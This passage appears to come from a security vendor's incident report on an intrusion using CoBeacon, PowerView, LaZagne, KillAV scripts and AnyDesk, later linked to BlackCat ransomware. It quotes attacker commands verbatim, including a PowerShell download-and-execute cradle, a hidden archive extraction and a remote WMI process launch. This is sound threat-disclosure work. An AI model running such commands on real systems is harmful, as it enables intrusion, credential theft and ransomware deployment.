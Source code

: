 




Figure 7. How finsdtr is used in the attack





We also observed the execution of scripts with PowerShell. For instance, the command IEX (New-Object Net.Webclient).DownloadString('hxxp://127[.]0[.]0[.]1:40347/'); Invoke-FindLocalAdminAccess -Thread 50" it invokes a PowerShell function called Invoke-FindLocalAdminAccess and passes the parameter -Thread with a value of 50. This function is likely part of a script that performs actions related to finding local administrator access on a system.
Another PowerShell script used by the threat actor was PowerView. PowerView, which belongs to the PowerSploit collection of scripts used to assist in penetration testing and security operations, focuses on AD reconnaissance and enumeration and is commonly used by threat actors to gather information about the AD environment.
PowerShell Expand-Archive command was used to extract the ZIP files.  
powershell -w hidden -command Expand-Archive C:\users\public\videos\python.zip -DestinationPath C:\users\public\videos\python
WMI was used to launch CoBeacon remotely across the environment. 
C:\WINDOWS\system32\cmd.exe /C wmic /NODE:"<REDACTED>" process call create C:\users\public\videos\python\pythonw.exe C:\users\public\videos\python\work2-2.py
To obtain high-privileged credentials and escalate privileges, the threat actor used a Python script also containing the marshal module to execute a pseudo-compiled code for LaZagne. Another script to obtain Veeam credentials following the same structure was also identified in the environment.
PsExec, BitsAdmin, and curl were used to download additional tools and to move laterally across the environment.
The threat actor dropped a detailed KillAV BAT script (KillAV is a type of malicious software specifically designed to disable or bypass antivirus or antimalware programs installed on a target system) to tamper with Trend protections. However, due to the agent’s Self-Protection features and VSAPI detections, the attempt failed. The threat actors also made attempts to stop Windows Defender through a different KillAV BAT script.
Finally, the threat actor installed the AnyDesk remote management tool (renamed install.exe) in the environment to maintain persistence.






Figure 8. Remote management tool installed for persistence





After a diligent and proactive response, the attacker was successfully evicted from the network before they could reach their goal or execute their final payload. The incident response team also presented immediate countermeasures as well as medium- and long-term security procedures for implementation.
BlackCat uses the same tools, techniques, and procedures (TTPs)
In another investigation, following the same TTPs described previously described, we were able to identify that this activity led to a BlackCat (aka ALPHV) infection. Along with other types of malware and tools already mentioned, we were able to identify the use of the anti-antivirus or anti-endpoint detection and response (EDR) SpyBoy terminator in an attempt to tamper with protection provided by agents.
In order to exfiltrate the customer data, the threat actor used PuTTY Secure Copy client (PSCP) to transfer the gathered information. Investigating one of the C&C domains used by the threat actor behind this infection also led to the discovery of a possible related Cl0p ransomware file.
